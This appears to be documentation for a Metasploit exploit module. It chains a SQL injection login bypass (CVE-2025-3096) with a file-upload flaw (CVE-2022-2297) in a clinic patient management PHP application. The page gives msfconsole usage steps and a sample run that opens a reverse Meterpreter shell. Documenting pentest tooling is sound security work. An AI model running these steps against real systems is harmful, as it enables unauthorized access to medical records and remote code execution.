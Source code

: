 ## Vulnerable Application
Clinic Patient's Management System contains SQL injection vulnerability in login section. This module uses the vulnerability
(CVE-2025-3096) to gain unauthorized access to the application. As lateral movement, it uses another vulnerability (CVE-2022-2297) to gain remote code execution.

## Verification Steps

### Vulnerable Application Installation Setup
1. Install Clinic's Patient Management System on your web server.
   - Download the Web Application from [here](https://www.sourcecodester.com/download-code?nid=15453&title=Clinic%27s+Patient+Management+System+in+PHP%2FPDO+Free+Source+Code)

2. Start `msfconsole` and load the exploit module:
```bash
   msfconsole
   use exploit/multi/http/clinic_pms_sqli_to_rce
```

3. Set the required options:
```bash
   set rport <port>
   set rhost <ip>
   set targeturi /pms
```

4. Check if the target is vulnerable:
```bash
   check
```

   If the target is vulnerable, you will see a message indicating that the target is susceptible to the exploit:
```
   [+] <IP> The target is vulnerable.
```

5. Set up the listener for the exploit:
```bash
   set lport <port>
   set lhost <ip>
```

6. Launch the exploit:
```bash
   exploit
```

7. If successful, you will receive a PHP Meterpreter shell.

## Options
- `TARGETURI`: (Required) The base path to the Clinic Patient Management System (default: `/pms`).

## Scenarios

```bash
msf exploit(multi/http/clinic_pms_sqli_to_rce) > exploit
[*] Started reverse TCP handler on 192.168.168.128:4444
[*] Logged using SQL injection..
[*] Malicious file uploaded..
[*] Logged out..
[*] Logged using SQL injection..
[*] Sending stage (40004 bytes) to 192.168.168.146
[*] Meterpreter session 1 opened (192.168.168.128:4444 -> 192.168.168.146:52522) at 2025-05-13 13:33:52 +0200

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 6.8.0-52-generic #53~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Wed Jan 15 19:18:46 UTC 2 x86_64
Meterpreter : php/linux

```

